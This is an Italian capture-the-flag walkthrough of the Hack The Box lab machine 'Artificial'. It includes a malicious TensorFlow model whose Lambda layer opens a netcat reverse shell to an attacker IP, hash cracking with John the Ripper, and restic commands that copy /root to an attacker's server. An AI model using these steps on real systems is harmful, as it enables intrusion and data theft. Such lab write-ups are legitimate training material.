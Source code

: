 # Macchina artificial

IP vittima: 10.10.11.74 
IP attacante: 10.10.14.6

## Recon

`sudo nmap -p- --open -vvv -n -Pn 10.10.11.74 -oG porte`
`nmap -sC -sV -p22,80 10.10.11.74 -oN servizi`

```bash
# Nmap 7.94SVN scan initiated Wed Oct 22 18:37:34 2025 as: nmap -sC -sV -p22,80 -oN servizi 10.10.11.74
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 22 18:37:42 2025 -- 1 IP address (1 host up) scanned in 7.76 seconds
```

Porte: 22,80

## Porta 80

Probabilmente non si riesce a visitare la porta http 80 sul browser quindi aggiornare `/etc/hosts con: <IP MACCHINA> artificial.htb`
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-14-56-image.png)

Creare un account e loggarsi, poi scaricare il Dockerfile

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-15-41-image.png)

Sfrutteremo questo exploit: https://github.com/Splinter0/tensorflow-rce/blob/main/exploit.py

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Inserendo il nostro IP e la nostra porta di ascolto

Creare il Docker con il docker file scaricato dal sito:

```bash
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

Quando si avvia il container docker creato saremo in una shell bash:

- creare un file .py che contiene l'exploit (mettere il nostro ip e la porta)
- eseguire il file .py creato con python
- lo script lanciato creerà un file `exploit.h5`
- copiare il file exploit.h5 creato fuori dal docker ( `docker cp $(docker ps -l -q):/code/exploit.h5 ./` )

Ora dal sito uploadare il file `exploit.h5`

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-17-52-image.png)

mettersi in ascolto sulla porta 4444 ( `nc -nlvp 4444` ) e cliccare su `View Predictions` sul sito

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-18-49-image.png)

Siamo dentro con l'utente `app`
Vediamo che nella cartella /home ci sono due cartelle: app e gael che probabilmente è un utente che troviamo anche in /etc/passwd
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-19-45-image.png)

## User gael

Con [[linpeas]]troviamo il file `/home/app/app/instance/users.db`
che possiamo esaminare:

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-20-17-image.png)

Questa chiave `c99175974b6e192936d97224638a34f8` è un hash MD5 che potrebbe essere la password dell'user gael

Creiamo un file `hash.txt` che contiene la hash di gael e proviamo a craccarla con [[johntheripper]]
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-md5`

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-20-48-image.png)

Troviamo la password: `mattp005numbertwo`

Con la password trovata possiamo entrare nell'utente gael con ssh `ssh gael@10.10.11.74`
Nella cartella `/home/gael` troviamo il file `user.txt` con la user flag

## Root

Con [[linpeas]]si trova il file `backrest_backup.tar.gz` nella cartella `/var/backups`
Scarichiamolo sul nostro pc e apriamolo ( `tar -xvf backrest_backup.tar.gz` )
Nella cartella `backrest/.config/backrest` troviamo il file `config.json`:

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-21-39-image.png)

Questa è una **password cifrata con bcrypt** Analizziamo i dettagli:

### Struttura del dato:

- **Identificatore**: `"backrest_root"`

- **Algoritmo**: `bcrypt` (indicato dal campo `passwordBcrypt`)

- **Formato**: Stringa codificata in Base64
  
  ### Cosa contiene esattamente:
  
  La stringa `"JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"` è un hash bcrypt che include:
1. **Versione algoritmo** (`$2a$`)

2. **Costo computazionale** (work factor)

3. **Salt** (valore casuale)

4. **Hash della password** vero e proprio
   
   ### Contesto probabile:

`"backrest_root"` suggerisce che potrebbe essere una password per il tool di backup `backrest` che è una soluzione di backup accessibile via web basata su restic che utilizza la porta 9898 di localhost
Possiamo sfruttare questo exploit di restic: https://gtfobins.github.io/gtfobins/restic/ ma dovremo installare restic ( `apt install restic` ) e rest-server scaricandolo da qui https://github.com/restic/rest-server

Cracchiamola con [[johntheripper]]
`john hash2.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt`
Troviamo la password: `?:!@#$%^`

Nella macchina vittima lanciamo il comando `ss -tuln` 
Comando `ss`:

### Significato delle opzioni:

- **`-t`** (TCP) - Mostra le connessioni TCP  

- **`-u`** (UDP) - Mostra le connessioni UDP  

- **`-l`** (listening) - Mostra solo socket in ascolto

- **`-n`** (numeric) - Mostra numeri invece di risolvere nomi (più veloce)
  
  ### Cosa visualizza:
  
  Elenca **tutti i servizi in ascolto** sulla macchina con:

- **Protocollo** (TCP/UDP)    

- **Porta** in uso    

- **Indirizzo IP** di ascolto   

- **Stato** della connessione

Vediamo che la porta 9898 è utilizzata:
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-22-29-image.png)

Sulla nostra macchina, con Il comando `ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898` creiamo un **tunnel SSH con port forwarding locale**. 

### Cosa succede esattamente:

1. **Sulla tua macchina locale**:    
   - SSH apre un socket in ascolto sulla **porta 9898**       
2. **Quando ti connetti alla tua porta 9898**:  
   - Il traffico viene **incapsulato** nella connessione SSH      
   - Viaggia cifrato fino al server `10.10.11.74`      
3. **Sul server remoto**:
   - SSH inoltra il traffico a `127.0.0.1:9898`     
   - (cioè a un servizio in esecuzione sul server stesso)

Con `localhost:9898` nel nostro browser entriamo nel servizio backrest sulla macchina vittima
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-23-10-image.png)

Accediamo con Username: `backrest_root` e Password: `!@#$%^`
Dopo aver fatto l'accesso dovremo creare una nuova repo (+ Add Repo)

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-23-38-image.png)

mettendo un nome (repox), URI /opt e una password (123456)
![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-24-15-image.png)

Mettiamoci in ascolto sulla nostra macchina con 
`./rest-server --path /tmp/restic-data --listen :12345 --no-auth`

Poi sul sito selezioniamo la repo creata e clicchiamo su Run Command

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-24-48-image.png)

Poi inseriamo i seguenti comandi:
`-r rest:http://<NOSTRO IP>:12345/repox init`
`-r rest:http://<NOSTRO IP>:12345/repox backup /root`

Sulla nostra macchina inseriamo i comandi:
`restic -r /tmp/restic-data/repox snapshots`

![](https://github.com/Xerand/Macchine-Hack-the-Box/blob/main/images/2025-10-22-23-25-24-image.png)

`restic -r /tmp/restic-data/repox restore f8118067 --target ./restore`   (f8118067 è l'ID della repo)

Poi con il comando `cat restore/root/root.txt` otteniamo la flag root
